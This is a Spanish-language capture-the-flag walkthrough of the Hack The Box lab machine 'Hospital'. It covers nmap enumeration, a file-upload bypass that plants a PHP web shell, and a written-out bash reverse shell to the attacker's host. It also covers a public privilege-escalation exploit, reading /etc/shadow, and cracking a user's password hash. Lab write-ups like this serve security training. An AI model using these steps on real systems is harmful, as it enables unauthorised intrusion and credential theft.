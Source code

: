 #windows #fuzzing #medium 
### Ping
```python
ping -c 1 10.10.11.241
PING 10.10.11.241 (10.10.11.241) 56(84) bytes of data.
64 bytes from 10.10.11.241: icmp_seq=1 ttl=127 time=77.1 ms

--- 10.10.11.241 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 77.090/77.090/77.090/0.000 ms
```

### TTL 127= Windows 

### nmap
```python
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-04-12 22:03:50Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-12T22:04:46+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2024-04-11T16:53:57
|_Not valid after:  2024-10-11T16:53:57
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open  msrpc             Microsoft Windows RPC
6410/tcp open  msrpc             Microsoft Windows RPC
6617/tcp open  msrpc             Microsoft Windows RPC
6631/tcp open  msrpc             Microsoft Windows RPC
6645/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h58m48s, deviation: 0s, median: 6h58m47s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-12T22:04:47
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.81 seconds
```

### Enumeración del puerto 53 (Domain)
`dig`
![[Pasted image 20240412115907.png]]

`dnsrecon -d hospital.htb -a -n 10.10.11.241`
![[Pasted image 20240412115733.png]]

### Enumeración del puerto 88 (Kerberos)
por el momento solo tenemos un usuario valido. administrator
![[Pasted image 20240412122215.png]]

### impacket-GetNPUsers
intentamos obtener un `TGT` pero el usuario no tiene `UF_DONT_REQUIRE_PREAUTH` por lo cual no podremos obtener un `TGT`
![[Pasted image 20240412122450.png]]

### Enumeración del puerto 8080 (http)
después de intentar un usuario inexistente nos envía a una pagina para crear un usuario 
![[Pasted image 20240412124323.png]]


![[Pasted image 20240412124252.png]]

`iniciamos session`
encontramos una web que nos permite subir archivos en este caso imagenes
![[Pasted image 20240412231100.png]]

usaremos el repositorio [github](https://github.com/flozz/p0wny-shell?source=post_page-----ce86940a895f--------------------------------) para cargar una shell de navegador. para ello debemos cambiar el nombre del archivo de .php a png luego vamos a interceptar esta peticion con burpsuite 
![[Pasted image 20240412232907.png]]

cambiamos la extensión del archivo shell.png a shell.phar y modificamos el `content-Tyoe` para que sea un application/x-php
![[Pasted image 20240412233144.png]]

ok. parece que ha aceptado el archivo. ahora solo debemos buscar el directorio donde se esta guardando. para ello haremos fuzzing
![[Pasted image 20240412232205.png]]
los archivos que subimos se guardan en un directorio llamado uploads. asi que apuntaremos a ese archivo en la url `10.10.11.241:8080/uploads/shell.phar`

de esta manera obtenemos una shell que nos permite interactuar de manera mas facil con el sistema. y aprovechando esto usaremos el comando `bash -c "bash -i >& /dev/tcp/10.10.14.137/9001 0>&1"` para obtener una reverse shell mas estable
![[Pasted image 20240412232653.png]]

### Reverse shell
obtenemos conexión y somos el usuario www-data
![[Pasted image 20240412233811.png]]

obtenemos la versión del sistema el cual es `ubuntu 23.04` investigando en internet conseguimos un exploit para la versión 23.04 que nos permite escalar privilegios usaremos este repo [github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629.git)  
![[Pasted image 20240412234226.png]]

hacemos un git clone para descargar el repo y tenemos el exploit
![[Pasted image 20240412234845.png]]

### servirdor en python
creamos un servidor para poder compartir el exploit
![[Pasted image 20240412235524.png]]

en la maquina victima descargamos el exploit
![[Pasted image 20240412235434.png]]

le damos permisos de ejecución y lo ejecutamos 
![[Pasted image 20240412235708.png]]

### /etc/shadow
podemos leer el archivo shadow
![[Pasted image 20240413000004.png]]

en el directorio home tenemos al usuario `drwilliams` asi que primero apuntaremos al hash de este usuario
`hashcat -a 0 -m 1800 hash /usr/share/wordlists/rockyou.txt`
![[Pasted image 20240413000617.png]]

obtenemos la contraseña
![[Pasted image 20240413000720.png]]

### Puerto 80 https 
usaremos las credenciales en la web
![[Pasted image 20240413000941.png]]

### mail 
Inició sesión en el sitio web es exitoso. Después de examinar el correo de la bandeja de entrada, parece aceptar únicamente el formato de archivo .esp.
![[Pasted image 20240413001057.png]]